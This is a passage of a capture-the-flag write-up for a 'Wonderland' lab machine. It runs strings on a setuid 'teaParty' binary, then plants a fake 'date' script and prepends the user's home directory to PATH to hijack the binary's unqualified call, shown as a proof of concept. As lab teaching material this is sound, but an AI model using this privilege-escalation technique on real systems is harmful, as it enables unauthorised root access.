 Then I can check what the binary is doing, but first I am just going to run strings to see any readable infomation I can glean from the binary:

```bash
└─$ strings teaParty                                                                         
/lib64/ld-linux-x86-64.so.2                                                                  
2U~4                                                                                         
libc.so.6                                                                                    
setuid                                                                                       
puts                                                                                         
getchar                                                                                      
system                                                                                       
__cxa_finalize                                                                               
setgid                                                                                       
__libc_start_main                                                                            
GLIBC_2.2.5                                                                                  
_ITM_deregisterTMCloneTable                                                                  
__gmon_start__                                                                               
_ITM_registerTMCloneTable                                                                    
u/UH                                                                                         
[]A\A]A^A_                                                                                   
Welcome to the tea party!                                                                    
The Mad Hatter will be here soon.                                                            
/bin/echo -n 'Probably by ' && date --date='next hour' -R                                    
Ask very nicely, and I will give you some tea while you wait for him                         
Segmentation fault (core dumped)                                                             
;*3$"                                                                                        
GCC: (Debian 8.3.0-6) 8.3.0                                                                  
crtstuff.c                                              
```

I can take advantage of the fact that this script is using date without using the full path by creating a new date executable in the same directory being run. First step is going to be adding the rabbit's home directory to PATH:


## Upadting path
```bash
rabbit@wonderland:/home/rabbit$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/home/rabbit$ export PATH=$(pwd):$PATH
rabbit@wonderland:/home/rabbit$ echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/home/rabbit$ 
```

## Creating a date POC

Next let's make a new date command:

```bash
rabbit@wonderland:/home/rabbit$ echo '#!/bin/bash'>date;echo id >>date;chmod +x date
rabbit@wonderland:/home/rabbit$ cat date
#!/bin/bash
id
rabbit@wonderland:/home/rabbit$ ls -la date
-rwxr-xr-x 1 rabbit rabbit 15 Dec  3 17:20 date
rabbit@wonderland:/home/rabbit$ date
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
rabbit@wonderland:/home/rabbit$ 
```

